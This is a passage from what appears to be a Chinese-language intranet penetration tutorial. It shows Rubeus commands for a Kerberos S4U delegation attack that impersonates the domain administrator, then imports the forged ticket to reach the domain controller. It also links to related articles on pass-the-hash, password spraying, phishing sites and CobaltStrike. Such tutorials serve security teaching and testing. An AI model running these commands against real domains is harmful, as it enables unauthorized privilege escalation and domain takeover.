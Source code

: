 这下面的 rc4 是刚刚新建的 test 用户的密码哈希，我们也可以使用 aes256 来进行认证。服务我们设置为 krbtgt

```
Rubeus.exe s4u /user:test /rc4:b98e75b5ff7a3d3ff05e07f211ebe7a8 /domain:xie.com /msdsspn:krbtgt /impersonateuser:administrator
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fg1GV1q6H2IRXooXnCxnZZaw0w7B8LibUXnAlZzLEe3qYcdopboHxibibAmKBk73L80ul9VGnoqp3nQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fg1GV1q6H2IRXooXnCxnZZ4PmzeJTtiaiakibOrHmu6jWhGF2o2ebicGA1jRKtkG3qZ8AVWAkDT54qdA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fg1GV1q6H2IRXooXnCxnZZHylcM4SrOKhGXqqibFwNO4vBTqUzK7icquJyULCnKX9zyFKQl8uN0RVQ/640?wx_fmt=png)

导入票据，访问域控

```
Rubeus.exe  ptt  /ticket:票据
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fg1GV1q6H2IRXooXnCxnZZ2uf6EcTlJ8iaq0AgG7SaFSibp8pzGG74TVWSy7fRKKjkibNhrdjrnONibA/640?wx_fmt=png)

参考文章：https://www.anquanke.com/post/id/170535

  

[![](https://mmbiz.qpic.cn/mmbiz_jpg/UZ1NGUYLEFiaJeGjd04dibz7iah6JTVeLsicT9kVuXfNXdqGhfhvhCZicafopwTts4dZoF9icPAFJh9RQ9omsbplQLTA/640?wx_fmt=jpeg)](https://mp.weixin.qq.com/s?__biz=MjM5NDY1OTA1NQ==&mid=2650791647&idx=1&sn=400183ea5bea0a3156a2b3a016a0f4d7&scene=21#wechat_redirect)

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFjGibCQezQKY4NzE1WGn6FBCbq3pQVl0oONnYXT354mlVw0edib6X6flYib9JRTic4DTibgib15WZC7sDUA/640?wx_fmt=png)

[内网渗透（十一） | 哈希传递攻击 (Pass-the-Hash,PtH)](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247490908&idx=1&sn=97594fbbef40346d07b5a6e5185ce77e&chksm=fc781981cb0f9097d18f4b32ff39f59b3512cedd35f0810ad5f61b661e631153f8c4e157d875&scene=21#wechat_redirect)  

[技术干货 | 工具：Social engineering tookit 钓鱼网站](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247490513&idx=2&sn=10afb29a20f37df05ebb12ea4d540e1f&chksm=fc781f0ccb0f961a85e646dd54e977dbcaeb5569be6701db4c29b9e204d964bab3ded6bf1999&scene=21#wechat_redirect)

[技术干货 | 工具的使用：CobaltStrike 上线 Linux 主机 (CrossC2)](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247490608&idx=1&sn=f2b2ea93b109447aa8cc2c872aa87c52&chksm=fc7818edcb0f91fbf85fa53f71e9967fc29fc93f6a783eed154707ca2dec24ca7f419fde5705&scene=21#wechat_redirect)

[内网渗透（十） | 票据传递攻击](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247490376&idx=2&sn=c070dd4c761b49d3fabd573cc9c96b5a&chksm=fc781f95cb0f9683b0f6c64f5db5823973c1b10e87b1452192bbed6c1159eccf6e8f2fd0290b&scene=21#wechat_redirect)  

[内网渗透（九） | Windows 域的管理](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247490197&idx=1&sn=4682065ddcab00b584918bc267e33f53&chksm=fc781e48cb0f975eddc44d77698fbb466d0eac7d745a6e5bbaf131560b3d4f9e22c1a359d241&scene=21#wechat_redirect)  

[内网渗透（八） | 内网转发工具的使用](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247490042&idx=1&sn=136d4057044a7d6f6cb5b57d20f7954a&chksm=fc781d27cb0f9431ec590662ab4e6bcd31b303e7caa20a2b116fd9a9b97e9e3be0bc34408490&scene=21#wechat_redirect)  

[内网渗透 | 域内用户枚举和密码喷洒攻击 (Password Spraying)](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247489985&idx=1&sn=0b7bce093e501b9817f263c24e0ed5b8&chksm=fc781d1ccb0f940aad0c9b2b06b68c7a58b0b4c513fe45f7da6e6438cac76d4778e61122faf8&scene=21#wechat_redirect)  
